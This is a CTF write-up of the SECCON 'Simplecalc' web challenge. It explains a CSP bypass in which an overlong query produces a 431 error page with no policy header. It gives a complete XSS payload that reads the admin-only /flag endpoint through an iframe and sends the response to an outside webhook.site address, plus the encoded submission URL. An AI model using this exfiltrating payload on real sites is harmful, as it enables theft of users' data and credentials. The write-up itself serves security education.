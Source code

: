 # Simplecalc - Web problem - writeup by Vie

> (132 pt)
> author:Arkwarmup
>
>This is a simplest calculator app.
> 
> Note: Don't forget that the target host is localhost from the admin bot.
>
> http://simplecalc.seccon.games:3000
>
> [simplecalc.tar.gz](./simplecalc.tar.gz) 6723d8fd7db93c5c0181845cfadd5048f4fdd267



## Overview

Self-explanatory app - you can submit equations which are processed into a client-side `eval`, your expression of which will appear in an `expr?=` GET query to index the result. 

The source is minimal, so we can focus on the good parts easily: 

```js
app.use((req, res, next) => {
  const js_url = new URL(`http://${req.hostname}:${PORT}/js/index.js`);
  res.header('Content-Security-Policy', `default-src ${js_url} 'unsafe-eval';`);
  next();
});
```

The app applies a CSP to, ostensibly, all locations of the app, with a `default-src` set to `http://simplecalc.seccon.games:3000/js/index.js` (or `localhost` if running locally, or according to the bot) allowing it to `unsafe-eval`.

```js
app.get('/flag', (req, res) => {
  console.log(req.cookies.token);
  if (req.cookies.token !== ADMIN_TOKEN || !req.get('X-FLAG')) {
    return res.send('No flag for you!');
  }
  return res.send(FLAG);
});
```

Flag is in an endpoint, and you need both an admin token and the presence of an X-FLAG header to get it. The header is easy but the token means only the admin will actually be able to see the flag.

```js
app.post('/report', reportLimiter, async (req, res) => {
  const { expr } = req.body;

  const url = new URL(`http://localhost:${PORT}/`)
  url.searchParams.append('expr', expr);

  try {
    await visit(url);
    return res.sendStatus(200);
  } catch (err) {
    console.error(err);
    return res.status(500).send('Something wrong');
  }
});
```

Admin only visits sites under the challenge domain. No cross-site shenanigans.

In bot.js: 

```js
   await page.setCookie({
      name: 'token',
      value: ADMIN_TOKEN,
      domain: `${APP_HOST}:${APP_PORT}`,
      httpOnly: true
    });
```

The ADMIN_TOKEN is httpOnly, so we can't steal it for ourselves.


## Unintended Attack

First and foremost, you can bypass the CSP by forcing a page under the simplecalc/localhost domain by navigating to `http://simplecalc.seccon.games:3000/js/index.js?<extremely_long_sequence_of_charactars_here>` and the length of your GET query will force a status code 431. The content of the page is irrelevant for our purposes, what's relevant is that the 431'd page lacks the CSP header. This is a page under the correct domain but with no CSP, so we can utilize our `fetch` or `xhr` XSS payloads freely. In order to attack this, you open an iframe with its src set to `http://simplecalc.seccon.games:3000/js/index.js?<extremely_long_sequence_of_charactars_here>`, append it to the document, and then when it loads, access its contentWindow to then access the page's `eval`. From there you get a straightforward XSS.


Put this in the `?expr=` query: 


```js
var gib=document.createElement('iframe');gib.src="http://localhost:3000/js/index.js?"+"a".repeat(0x5000);document.body.appendChild(gib);gib.onload=function(){gib.contentWindow.eval('x=new XMLHttpRequest;x.onload=function(){t=this.responseText;y=new XMLHttpRequest;y.open("GET","http://webhook.site/1ec04c0d-14c5-41d9-80cd-dba3875c48d1?"+t);y.send();};x.open("GET","http://localhost:3000/flag");x.setRequestHeader("X-FLAG","ok");x.withCredentials=true;x.send();')}

```

And submit the calculated result to the admin:

```
http://simplecalc.seccon.games:3000?expr=var%20gib%3Ddocument.createElement%28%27iframe%27%29%3Bgib.src%3D%22http%3A%2F%2Flocalhost%3A3000%2Fjs%2Findex.js%3F%22%2B%22a%22.repeat%280x5000%29%3Bdocument.body.appendChild%28gib%29%3Bgib.onload%3Dfunction%28%29%7Bgib.contentWindow.eval%28%27x%3Dnew%20XMLHttpRequest%3Bx.onload%3Dfunction%28%29%7Bt%3Dthis.responseText%3By%3Dnew%20XMLHttpRequest%3By.open%28%22GET%22%2C%22http%3A%2F%2Fwebhook.site%2F1ec04c0d-14c5-41d9-80cd-dba3875c48d1%3F%22%2Bt%29%3By.send%28%29%3B%7D%3Bx.open%28%22GET%22%2C%22http%3A%2F%2Flocalhost%3A3000%2Fflag%22%29%3Bx.setRequestHeader%28%22X-FLAG%22%2C%22ok%22%29%3Bx.withCredentials%3Dtrue%3Bx.send%28%29%3B%27%29%7D
```

And wait for flag: `SECCON{service_worker_is_powerfull_49a3b7bf6d2ae18d}` _Oh_, service workers, huh. My unintended soln was pretty fun to do too though. :>

